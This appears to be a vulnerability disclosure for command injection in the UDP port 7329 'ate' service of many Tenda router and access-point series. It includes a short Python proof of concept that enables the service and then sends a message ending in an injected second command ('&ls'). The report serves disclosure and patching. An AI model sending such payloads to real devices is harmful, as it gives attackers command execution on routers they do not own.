 # summary

There is command injection in the ate module in many series of tenda products

# affected

AC series (AC1206, AC7, AC23 have been submitted separately)

[11AC Routers-Tenda US (tendacn.com)](https://www.tendacn.com/us/products/11ac-routers.html)

G series

[Wired Enterprise Router-Tenda US (tendacn.com)](https://www.tendacn.com/us/products/wired-enterprise-router.html)

W series

[In-wall AP-Tenda US (tendacn.com)](https://www.tendacn.com/us/products/in-wall-ap.html)

I series

[Ceiling AP-Tenda US (tendacn.com)](https://www.tendacn.com/us/products/ceiling-ap.html)

O series

[Outdoor CPE-Tenda US (tendacn.com)](https://www.tendacn.com/us/products/outdoor-cpe.html)

A series

[Range Extenders-Tenda US (tendacn.com)](https://www.tendacn.com/us/products/range-extenders.html)

VD series

[xDSL Modem Routers-Tenda US (tendacn.com)](https://www.tendacn.com/us/products/xdsl-modem.html)

# Vulnerabilities

In the above mentioned devices, an `ate` processing function is defined in httpd(In some devices this function is `formAte` instead of `TendaAte`)

![2024-10-04_173619](2024-10-04_173619.png)

This function may have two situations
1. This function directly implements ate processing

   ![2024-10-05_191103](D:\ctfWork\iot\tenda\ate_report\2024-10-05_191103.png)

2. Implements ate processing by starting /bin/ate or /sbin/td_ate

   ![2024-10-05_191334](2024-10-05_191334.png)

But the core function processing function of both methods is the same 

![191919](191919.png)

In this function, port `7329` will be opened using udp

Then receive the message and enter the corresponding function operation according to the string, without any filtering of the input during the process

However, there are several dangerous functions in the processed functions that can lead to command injection

Just send a message like `operation arg....` to reach many dangerous functions

For example

**ate_ifconfig_set**

![2024-10-05_193344](2024-10-05_193344.png)

**ate_iwpriv_set**

![2024-10-05_193712](2024-10-05_193712.png)

**wlctrl**

![2024-10-05_193516](2024-10-05_193516.png)

**set_finishtest_flag**

![2024-10-05_194212](2024-10-05_194212.png)

There are actually some hidden

# POC

Take `Tenda g3 Wired Enterprise Router` as an example

```py
import socket
import time
import os

os.system('curl http://192.168.0.10/goform/ate')

time.sleep(3)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

server_address = ('192.168.0.10', 7329)
command = b'ls'
message = b'wlctrl set &' + command

try:
    print(f'Sending: {message}')
    sock.sendto(message, server_address)

    data, server = sock.recvfrom(4096)
    print(f'Received: {data}')

finally:

    sock.close()
```

# patch

can add access control in port `7329` or filter user input